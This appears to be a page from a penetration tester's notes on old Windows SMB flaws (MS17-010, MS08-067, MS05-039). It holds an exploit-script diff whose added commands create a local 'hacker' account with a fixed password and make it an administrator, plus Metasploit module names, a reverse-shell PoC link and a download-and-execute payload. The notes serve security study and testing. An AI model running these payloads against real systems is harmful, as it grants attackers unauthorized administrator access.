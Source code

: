 ~~~
+	#smbConn.closeFile(tid2, fid2)
+	#smbConn.disconnectTree(tid2)
 	
 	#smb_send_file(smbConn, sys.argv[0], 'C', '/exploit.py')
 	#service_exec(conn, r'cmd /c copy c:\pwned.txt c:\pwned_exec.txt')
@@ -984,6 +986,11 @@
 	# a simple method to get shell (but easily to be detected by AV) is
 	# executing binary generated by "msfvenom -f exe-service ..."

+	print('pwning smb')
+	service_exec(conn, r'net user hacker P@ssw0rd /add')
+	service_exec(conn, r'net localgroup administrators hacker /add')
+
+
 def smb_send_file(smbConn, localSrc, remoteDrive, remotePath):
 	with open(localSrc, 'rb') as fp:
 		smbConn.putFile(remoteDrive + '$', remotePath, fp.read)
~~~

Alternatively exploit using Metasploit `exploit/windows/smb/ms17_010_eternalblue` or `exploit/windows/smb/ms17_010_psexec`.

References:

- [twitter.com/snovvcrash/status/1636406117403328513](https://twitter.com/snovvcrash/status/1636406117403328513), alternate exploitation that dumps SAM

# Server Service NetAPI Parser Flaw / [CVE-2008-4250](https://www.opencve.io/cve/CVE-2008-4250) / [MS08-067](https://docs.microsoft.com/en-us/security-updates/securitybulletins/2008/ms08-067)

Vulnerability in[[notes/network/smb]] affects Windows 2000, XP, Server 2003 SP1 and SP2, Vista Gold and SP1, Server 2008, and 7 Pre-Beta.

Exploitation with Metasploit `exploit/windows/smb/ms08_067_netapi` (untested).

# Stack Buffer Overflow in Windows Plug and Play Service / [CVE-2005-1983](https://www.opencve.io/cve/CVE-2005-1983) / [MS05-039](https://docs.microsoft.com/en-us/security-updates/SecurityBulletins/2005/MS05-039)

Vulnerability in[[notes/network/smb]] affects Windows 2000, XP up to SP1 and Server 2003 up to SP1.

Spawn reverse shell with [ms05-039.c](http://web.archive.org/web/20221006110711/https://raw.githubusercontent.com/SecWiki/windows-kernel-exploits/master/MS05-039/PnP_Service.c).

Can also be exploited with Metasploit `exploit/windows/smb/ms05_039_pnp` and `windows/download_exec` as payload.
